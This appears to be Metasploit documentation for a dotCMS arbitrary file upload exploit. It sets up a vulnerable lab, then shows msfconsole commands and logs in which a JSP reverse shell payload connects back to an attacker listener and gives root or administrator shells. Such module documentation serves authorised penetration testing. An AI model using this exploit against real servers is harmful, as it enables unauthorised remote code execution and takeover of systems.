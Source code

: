 ## Vulnerable Application

### Description
This module exploits an arbitrary file upload vulnerability in dotCMS versions before 22.03, 5.3.8.10, 21.06.7 in each
respective stream. The module uploads a jsp payload to the tomcat ROOT directory and accesses it to trigger its execution.

### Clone and build a vulnerable version of dotCMS:
This requires Java 1.8 to be installed and JAVA_HOME to be set (see below for per OS instructions).
1. `git clone https://github.com/dotCMS/core.git`
1. `cd core`
1. `git checkout 7d604e5 (this is vulnerable version 21.06)`
1. `cd dotCMS/`
1. `./gradlew createDist`
```
Starting a Gradle Daemon (subsequent builds will be faster)

<output truncated>

BUILD SUCCESSFUL in 12m 53s
21 actionable tasks: 19 executed, 2 up-to-date
```

If the build was successful you should now have a vulnerable 21.06 linux and windows instance:
```
msfuser@ubuntu:~/core/dotCMS$ ls -l ../dist-output/
total 811132
-rw-rw-r-- 1 msfuser msfuser 413134562 May 20 10:22 dotcms_21.06.tar.gz
-rw-rw-r-- 1 msfuser msfuser 417462181 May 20 10:24 dotcms_21.06.zip
```

Inside each of the above compressed directories exists a directory `dotserver` which contains the vulnerable app.

### Ubuntu 20.04 install

#### Install JAVA 1.8

1. `export JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"`
1. `export PATH=$JAVA_HOME/bin:$PATH`
1. `sudo apt-get install openjdk-8-jdk`

#### Install Postgres

1. `sudo apt install postgresql -y`
1. `sudo -u postgres psql`
1. Change the default database, username and password from `dotcms` to `postgres` (or create the db and user `dotcms`).
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/db.properties`
```
##Postgres default configuration
driverClassName=org.postgresql.Driver
jdbcUrl=jdbc:postgresql://localhost/postgres
username=postgres
password=postgres
```

#### Install Elastic Search

1. `sudo apt install apt-transport-https ca-certificates wget`
1. `wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -`
1. `sudo sh -c 'echo "deb https://artifacts.elastic.co/packages/7.x/apt stable main" > /etc/apt/sources.list.d/elastic-7.x.list'`
1. `sudo apt update`
1. `sudo apt install elasticsearch`
1. `sudo systemctl daemon-reload `
1. `sudo systemctl enable elasticsearch.service`
1. `sudo systemctl start elasticsearch.service`
1. `sudo systemctl status elasticsearch.service`
1. Edit `dotcms-config-cluster.properties` to ensure the following properties are set:
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/dotcms-config-cluster.properties`
```
ES_ENDPOINTS=http://localhost:9200

ES_PROTOCOL=http
ES_HOSTNAME=localhost
ES_PORT=9200

ES_TLS_ENABLED=false
```

#### Run dotCMS

1. `cd dotserver/tomcat-9.0.41/bin/`
1. `chmod 755 *.sh`
1. `catalina.sh run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

### Windows 10 install

#### Install Java 1.8

1. Download and follow wizard to install:
    https://www.oracle.com/java/technologies/downloads/#license-lightbox

#### Install Elasticsearch 8.2.0

Download and follow wizard to install:
https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.2.0-windows-x86_64.zip dotcms-config-cluster.properties
1. Ensure dotcms-config-cluster.properties contains the same properties as specified above

#### Install Postgres 10.21

1. Download and follow wizard to install:
    https://www.enterprisedb.com/postgresql-tutorial-resources-training?uuid=ea5c8104-3940-4ed1-b427-81cf19781581&campaignId=70138000000rYFmAAM
1. Ensure db.properties contains the same properties as specified above

#### Run dotCMS

1. `cd dotserver\tomcat-9.0.41\bin\`
1. `catalina.bat run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

## Verification Steps
1. `use multi/http/dotcms_file_upload_rce`
2. `set RHOSTS [ips]`
3. `set LHOST [ips]`
4. `run`

## Scenarios

### Ubuntu 20.04 dotCMS 21.06:
```
msf > use exploit/multi/http/dotcms_file_upload_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.227
rhosts => 172.16.199.227
msf exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[+] Deleted ../webapps/ROOT/XZhKXIssjD.jsp
[+] Deleted ../webapps/ROOT/M4NYE9Kb.jsp
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.227:39610) at 2022-05-20 15:01:25 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.13.0-41-generic #46~20.04.1-Ubuntu SMP Wed Apr 20 13:16:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Windows 10 dotCMS 21.06:
```
msf > use dotcms_file_upload_rce
[*] Using exploit/multi/http/dotcms_file_upload_rce
msf exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.231
rhosts => 172.16.199.231
msf exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[!] Tried to delete ../webapps/ROOT/AkqMhxCZWr.jsp, unknown result
[!] Tried to delete ../webapps/ROOT/xdPfn9JTdu33X.jsp, unknown result
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.231:50016) at 2022-05-20 12:41:36 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19042.1706]
(c) Microsoft Corporation. All rights reserved.
-----


C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>whoami
whoami
desktop-h1lncdm\administrator

C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>systeminfo
systeminfo

Host Name:                 DESKTOP-H1LNCDM
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042

<output truncated>
```
Note on windows the module reports an unknown result when trying to delete the files though it does successfully
